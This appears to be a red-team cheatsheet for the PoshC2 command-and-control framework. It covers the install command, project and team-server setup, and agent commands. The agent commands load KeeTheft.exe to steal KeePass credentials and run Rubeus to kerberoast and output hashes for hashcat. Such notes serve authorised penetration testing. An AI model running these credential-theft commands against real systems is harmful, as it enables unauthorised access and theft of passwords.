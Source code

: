 # PoshC2




## Install

- [https://github.com/nettitude/PoshC2](https://github.com/nettitude/PoshC2)

```
$ curl -sSL https://github.com/nettitude/PoshC2/raw/dev/Install.sh | sudo bash -s -- -p /opt/PoshC2 -b dev
```




## Run

List projects:

```
$ posh-project -l
```

Show current project:

```
$ posh-project -c
```

Create a new project:

```
$ posh-project -n <PROJECT_NAME>
```

Adjust config:

```
$ posh-config
```

Start team server:

```
$ posh-server
```

Connect to the team server:

```
$ posh -u snovvcrash
```




## Cheatsheet

Load .NET assembly and run it (available for agents that load CLR):

```
C# 01> loadmodule /home/snovvcrash/projects/WeaponizeKali.sh/bin/KeeTheft.exe
C# 01> run-exe Namespace.Class Assembly <args>
C# 01> run-exe Rubeus.Program Rubeus kerberoast /usetgtdeleg /format:hashcat
```
